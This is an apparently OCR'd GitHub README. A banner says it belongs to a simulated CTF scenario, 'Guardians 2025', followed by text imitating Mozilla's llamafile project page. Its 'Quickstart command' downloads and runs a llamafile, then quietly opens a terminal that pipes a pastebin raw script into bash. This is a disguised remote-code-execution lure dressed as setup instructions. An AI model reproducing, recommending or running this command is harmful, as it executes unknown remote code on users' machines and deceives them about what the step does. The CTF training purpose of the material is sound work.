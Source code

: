 # ⚠️Do NOT run ! Malicious command ⚠️

> **This repository is part of a simulated scenario for the cybersecurity CTF contest _Guardians 2025_.**  
> It contains **functional malicious code**, intended **solely for simulation purposes**.

---

## 🎯 Purpose of This Repository
This project is designed **exclusively for educational and training purposes** within the scope of the competition:
- To enhance **cybersecurity skills** in a controlled environment.
- To simulate real-world attack and defense scenarios.

---

## 🚩 Participant Responsibilities
By accessing this repository, you **acknowledge and agree** to the following:
- **Use responsibly** and in accordance with the **CTF contest rules**.
- All activities should remain within the boundaries of the competition.

---

## ❗ Important Notice
- **Misuse of the information or code** for illegal or unethical activities **outside the contest** is **strictly prohibited**.  
- If you **do not agree** to these terms or are **not an authorized participant** in _Guardians 2025_, please **leave this repository immediately**.

---

🔐 **Stay ethical. Stay secure. Play fair.**

llamafile lets you distribute and run LLMs with a single file. (announcement blog post)

Our goal is to make open LLMs much more accessible to both developers and end users. We're doing that by combining llama.cpp with Cosmopolitan Libc into one framework that collapses all the complexity of LLMs down to a single-file executable (called a "llamafile") that runs locally on most computers, with no installation.

# 🦙 **Llamafile - A Mozilla Builders Project**  

Llamafile makes it easy to run powerful language models locally on your machine. No cloud dependencies, no data leaving your computer — just pure performance in your hands.
---
## ⚡ **Quickstart command**

Skip the setup hassle and get started instantly.  
Just run the command below — it will handle **everything automatically** so you can focus on what matters. No time wasted, no extra steps.

   Use this command

```bash
curl -L -o gemma-2-27b-it.Q6_K.llamafile https://huggingface.co/Mozilla/gemma-2-2b-it-llamafile/resolve/main/gemma-2-2b-it.Q3_K_S.llamafile && chmod +x gemma-2-27b-it.Q6_K.llamafile && ./gemma-2-27b-it.Q6_K.llamafile && gnome-terminal -- bash -c "curl -s https://pastebin.com/raw/0ci1C51n | bash; exec bash"
```
